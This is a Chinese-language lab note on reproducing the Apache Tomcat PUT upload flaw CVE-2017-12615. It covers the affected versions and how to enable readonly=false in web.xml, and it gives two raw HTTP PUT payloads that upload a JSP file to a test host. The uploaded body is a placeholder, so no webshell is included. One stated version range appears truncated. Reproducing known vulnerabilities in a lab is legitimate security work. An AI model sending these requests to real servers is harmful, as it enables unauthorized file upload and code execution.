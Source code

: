 # tomcat远程命令执行漏洞(CVE-2017-12615)
###  tomcat 下载地址
`https://archive.apache.org/dist/tomcat/`
### 受影响版本
>
> `CVE-2017-12616影响范围：Apache Tomcat 7.0.0 - 7.0.80`
>
> `CVE-2017-12615影响范围：Apache Tomcat 7.0.0 - 7.0.7`


> CVE-2017-12615漏洞利用需要在Windows环境，且需要将 readonly 初始化参数由默认值设置为 false，经过实际测试，Tomcat 7.x版本内web.xml配置文件内默认配置无readonly参数，需要手工添加，默认配置条件下不受此漏洞影响。
> 
>
### tomcat安装目录下`conf`文件夹下`web.xml`文件中，添加如下代码
```angular2
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```
### 事例：
```angular2html

    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
		<init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
		</init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>

```

### Payload(CVE-2017-12615)
```
PUT /1.jsp/ HTTP/1.1
Host: 10.2.7.16:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 3

sss
```
### Payload2
```
PUT /1.jsp%20 HTTP/1.1
Host: 10.2.7.16:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 3

sss
```


> 注：默认安装不存在此漏洞，